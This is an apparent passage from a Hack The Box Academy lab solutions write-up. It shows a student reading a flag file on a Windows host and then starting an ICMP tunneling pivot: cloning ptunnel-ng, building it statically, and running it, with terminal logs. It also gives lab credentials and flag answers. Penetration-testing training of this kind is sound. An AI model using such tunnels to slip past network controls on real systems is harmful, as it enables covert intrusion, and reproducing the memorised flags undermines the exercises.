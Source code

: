 ```
Do you trust the above certificate? (Y/T/N) Y
```

![[HTB Solutions/CPTS/z. images/40856e6bad41ed64f33384cafd15a6dc_MD5.jpg]]

Students, at last, need to print out the contents of the flag file "flag.txt" under the directory `C:\Users\victor\Documents\` to attain `Th3$eTunne1$@rent8oring!`:

Code: shell

```shell
type \Documents\flag.txt
```

```
C:\Users\victor>type Documents\flag.txt

Th3$eTunne1$@rent8oring!
```

Answer: `Th3$eTunne1$@rent8oring!`

# ICMP Tunneling with SOCKS

## Question 1

### "Using the concepts taught thus far, connect to the target and establish an ICMP tunnel. Pivot to the DC (172.16.5.19, victor:pass@123) and submit the contents of C:\\Users\\victor\\Downloads\\flag.txt as the answer."

On `Pwnbox`/`PMVPN`, students need to clone the [ptunnel-ng](https://github.com/utoni/ptunnel-ng.git) repository and then statically build it with the "autogen.sh" script:

Code: shell

```shell
git clone https://github.com/utoni/ptunnel-ng.git
sudo apt install automake autoconf -y
cd ptunnel-ng/
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh
```

```
┌─[eu-academy-5]─[10.10.15.120]─[htb-ac-8414@htb-1dos1dn7rk]─[~]
└──╼ [★]$ git clone https://github.com/utoni/ptunnel-ng.git

Cloning into 'ptunnel-ng'...
remote: Enumerating objects: 1412, done.
remote: Counting objects: 100% (318/318), done.
remote: Compressing objects: 100% (136/136), done.
remote: Total 1412 (delta 186), reused 295 (delta 174), pack-reused 1094 (from 1)
Receiving objects: 100% (1412/1412), 709.91 KiB | 22.90 MiB/s, done.
Resolving deltas: 100% (908/908), done.

┌─[eu-academy-5]─[10.10.15.120]─[htb-ac-8414@htb-1dos1dn7rk]─[~]
└──╼ [★]$ sudo apt install automake autoconf -y

Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
automake is already the newest version (1:1.16.5-1.3).
autoconf is already the newest version (2.71-3).
The following packages were automatically installed and are no longer required:
```

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.